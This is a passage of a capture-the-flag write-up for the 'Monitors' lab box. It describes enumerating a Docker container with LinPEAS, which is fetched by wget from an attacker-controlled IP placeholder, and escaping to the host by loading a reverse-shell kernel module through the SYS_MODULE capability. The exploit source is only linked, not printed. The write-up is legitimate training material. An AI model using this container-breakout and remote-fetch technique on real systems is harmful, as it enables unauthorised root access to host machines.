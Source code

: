 If you notice the host, you will see it's not `monitors.htb` because we are in a docker container.

Let's download LinPeas and see if we can get an escape to root of system.

```bash
wget http://YOUR_IP/linpeas.sh
```
![Pasted image 20210717185935.png](/assets/Pasted%20image%2020210717185935.png)

We see there is a sys_module capability that we can exploit to breakout of docker
![Pasted image 20210717190351.png](/assets/Pasted%20image%2020210717190351.png)
https://blog.pentesteracademy.com/abusing-sys-module-capability-to-perform-docker-container-breakout-cf5c29956edd ^3839ca

Let's follow this blog, we start by showing our capabilities with `capsh --print`

![Pasted image 20210717190554.png](/assets/Pasted%20image%2020210717190554.png)

The container has SYS_MODULE capability. So we can insert/remove kernel modules in/from the kernel of the Docker host machine.

Now we need to find the IP of our docker container, we can find that with `ifconfig` from marcus ssh session
![Pasted image 20210717190702.png](/assets/Pasted%20image%2020210717190702.png)

Then we compile a file to invoke a reverse shell with the help of usermode Helper API.
![reverse-shell.c#^dcedab](/assets/reverse-shell.c)
Then we create a Makefile
![reverse-shell.c#^e35de3](/assets/reverse-shell.c)

And we send them to the docker container with wget
![Pasted image 20210717191953.png](/assets/Pasted%20image%2020210717191953.png)
